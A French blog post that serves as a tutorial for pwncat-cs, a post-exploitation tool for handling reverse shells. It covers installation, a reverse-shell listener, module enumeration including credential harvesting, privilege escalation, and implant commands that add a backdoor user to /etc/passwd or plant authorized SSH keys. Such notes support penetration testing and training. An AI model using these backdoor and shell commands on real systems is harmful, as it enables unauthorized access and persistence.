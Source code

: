 ```yaml
---
title: Stop using netcat, use Pwncat-cs
meta_title: ""
description: Petite documentationn d'utilisation d'un fancy rev et bind handler
date: 2024-04-04T05:00:00Z
image: /images/pwncat.png
categories:
  - Outils
author: Tmax
tags:
  - Outils
  - Fiches
  - Post-exploitation
draft: false
---
```


# Introduction

[Pwncat](https://github.com/calebstewart/pwncat) est un outil de post-exploitation qui facilite l'usage des reverse shell et embarque plusieurs avantages tels que la gestion des shells stabilisés et interactifs, la désactivation de l'historique, la gestion des multi-sessions... 

Ça vaut le détour. 

Voici le lien vers la [documentation officielle](https://pwncat.readthedocs.io/en/latest/). 

# Installation 

Il existe plusieurs méthodes d'installation, notamment avec `apt`. 
Nous aborderons seulement l'installation avec `pip` en utilisant un environnement virtuel. 

```bash
sudo apt-get install python3-pip # Installation de pip

# Installation de Venv 
sudo pip3 install virtualenv
# Ou avec 
sudo apt install python3-venv 

# Creation du Venv
python -m venv /opt/pwncat

# Installer pwncat dans notre venv 
/opt/pwncat/bin/pip install pwncat-cs

# Pour autoriser l'utilisation de pwncat hors de notre Venv 
ln -s /opt/pwncat/bin/pwncat-cs /usr/local/bin
```

# Utilisation 

Pour un usage basique, voici la section "Basic usage" de la [documentation](https://pwncat.readthedocs.io/en/latest/usage.html). 

Pour ce qui est d'un simple reverse shell : 

```bash
pwncat-cs -lp 4444
```

{{< image src="images/methode_pwncat1.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

L'indication **(local)** vous indique que vous êtes encore sur votre machine. Avec `CTRL + D` vous pourrez alors passer en **(remote)** et avoir accès à la machine distante. 

La commande `help` est bien détaillée, vous pouvez aussi l'utiliser pour chaque commande dispo comme `help connect` par exemple. Sinon, vous pouvez retrouver plus de détails pour chaque commande [ici](https://pwncat.readthedocs.io/en/latest/commands/index.html).  

Vous pouvez entre autres gérer plusieurs connexions en même temps, créer des backdoors et mettre en "queue" chaque connexion entrante. 

Voici la liste des commandes dispo : 

```python
  Command     Description                                                   
 ────────────────────────────────────────────────────────────────────────── 
  alias       Alias an existing command with a new name. Specifying [...]   
  back        Return to the remote terminal                                 
  bind        Create key aliases for when in raw mode. This only [...]      
  connect     Connect to a remote victim. This command is only valid [...]  
  download    Download a file from the remote host to the local host        
  escalate    Attempt privilege escalation in the current session. [...]    
  exit        Exit the interactive prompt. If sessions are active, [...]    
  help        List known commands and print their associated help [...]     
  info        View info about a module                                      
  lcd         Change the local current working directory                    
  leave       Leave a layer of execution from this session. Layers [...]    
  listen      Create a new background listener. Background listeners [...]  
  listeners   Manage active or stopped background listeners. This [...]     
  load        Load modules from the specified directory. This does [...]    
  local       Run a local shell command on your attacking machine           
  lpwd        Print the local current working directory                     
  reset       Reset the remote terminal to the standard pwncat [...]        
  run         Run a module. If no module is specified, use the [...]        
  search      View info about a module                                      
  sessions    Interact and control active remote sessions. This [...]       
  set         Set variable runtime variable parameters for pwncat           
  shortcut                                                                  
  upload      Upload a file from the local host to the remote host          
  use         Set the currently used module in the config handler     
```

Pour lister vos sessions vous pouvez 

```bash
sessions
```

puis pour choisir de cibler l'une d'entre elles 

```bash
sessions ID_decimal 
```

## Modules

Vous pouvez aussi rechercher les modules disponibles que l'on peut exécuter avec la commande 
```
run {module_name} 
```

```python
(local) pwncat$ search enum*
                                                                          Results                                                                           
                                                         ╷                                                                                                  
  Name                                                   │ Description                                                                                      
 ════════════════════════════════════════════════════════╪═════════════════════════════════════════════════════════════════════════════════════════════════ 
  enumerate                                              │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.escalate.implant                             │ Generates escalation methods based on installed implants in order to...                          
  enumerate.escalate.replace                             │ Locate execute abilities and produce escalation methods from them. This...                       
  enumerate.gather                                       │ Perform multiple enumeration modules and write a formatted report to the...                      
  enumerate.creds.pam                                    │ Exfiltrate logged passwords from the pam-based persistence module. This...                       
  enumerate.creds.password                               │ Search the victim file system for configuration files which may contain...                       
  enumerate.creds.private_key                            │ Search the victim file system for configuration files which may contain...                       
  enumerate.escalate.append_passwd                       │ Check for possible methods of escalation via modifying /etc/passwd                               
  enumerate.escalate.leak_privkey                        │ Find escalation methods by using file-read abilities to leak other user's...                     
  enumerate.file.caps                                    │ Enumerate capabilities of the binaries of the remote host                                        
  enumerate.file.suid                                    │ Enumerate SUID binaries on the remote host                                                       
  enumerate.misc.writable_path                           │ Locate any components of the current PATH that are writable by the current user.                 
  enumerate.software.cron                                │ Check for any readable crontabs and return their entries.                                        
  enumerate.software.screen                              │ Locate installations of the ``screen`` tool. This is useful because it may be...                 
  enumerate.software.screen.cve_2017_5618                │ Identify systems vulnerable to CVE-2017-5618                                                     
  enumerate.software.sudo.cve_2019_14287                 │ Identify systems vulnerable to CVE-2019-14287: Sudo Bug Allows Restricted...                     
  enumerate.software.sudo.rules                          │ Enumerate sudo privileges for the current user. If allowed, this module will...                  
  enumerate.software.sudo.version                        │ Retrieve the version of sudo on the remote host                                                  
  enumerate.system.aslr                                  │ Determine whether or not ASLR is enabled or disabled. :return:                                   
  enumerate.system.container                             │ Check if this system is inside a container :return:                                              
  enumerate.system.distro                                │ Enumerate OS/Distribution version information                                                    
  enumerate.system.fstab                                 │ Read /etc/fstab and report on known block device mount points.                                   
  enumerate.system.hosts                                 │ Enumerate hosts identified in /etc/hosts which are not localhost :return:                        
  enumerate.system.init                                  │ Enumerate system init service :return:                                                           
  enumerate.system.network                               │ Enumerate network interfaces with active connections and return their name...                    
  enumerate.system.process                               │ Extract the currently running processes. This will parse the process...                          
  enumerate.system.selinux                               │ Retrieve the current SELinux state                                                               
  enumerate.system.services                              │ Enumerate systemd services on the victim                                                         
  enumerate.system.uname                                 │ Enumerate standard system properties provided by the `uname` command. This...                    
  enumerate.user                                         │ Enumerate users from a linux target                                                              
  enumerate.user.group                                   │ Enumerate users from a linux target     
```

Source : https://pwncat.readthedocs.io/en/latest/modules.html

## Escalade de privilège

Il est aussi possible d'utiliser la commande `escalate` pour trouver des techniques d'élévation de privilèges, mais je ne sais pas trop ce que ça donne : 

{{< image src="images/methode_pwncat2.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

Et utiliser `escalate run` pour exécuter cette escalade de privilège.  

Source : https://pwncat.readthedocs.io/en/latest/privesc.html

## Implant et backdooring


```bash
#Installe une porte dérobée à l'intérieur de l'entreprise /etc/passwd
(local) pwncat$ run implant.passwd backdoor_user=pwncat backdoor_pass=pwncat

# Installe une clé publique autorisée en tant qu'utilisateur actuel
(local) pwncat$ run implant.authorized_key key=./id_rsa

# Installe une clé autorisée en tant qu'autre utilisateur (nécessite un accès root)
(local) pwncat$ run implant.authorized_key user=john key=./id_rsa
```

Il est également possible de créer un fichier de configuration qui run ces commandes dès qu'un shell est établi, plus d'infos [ici](https://pwncat.readthedocs.io/en/latest/configuration.html#configuration-parameters) 


```
# Liste des implants installés
(local) pwncat$ run implant list

# Tentative d'escalade avec un implant local ; il sera demandé quel(s) implant(s) utiliser.
(local) pwncat$ run implant escalate

# Pour lister les implants par ID
pwncat-cs --list

# Essaye de se reconnecter à un implant
pwncat-cs {ID}
```

Source : https://pwncat.readthedocs.io/en/latest/persist.html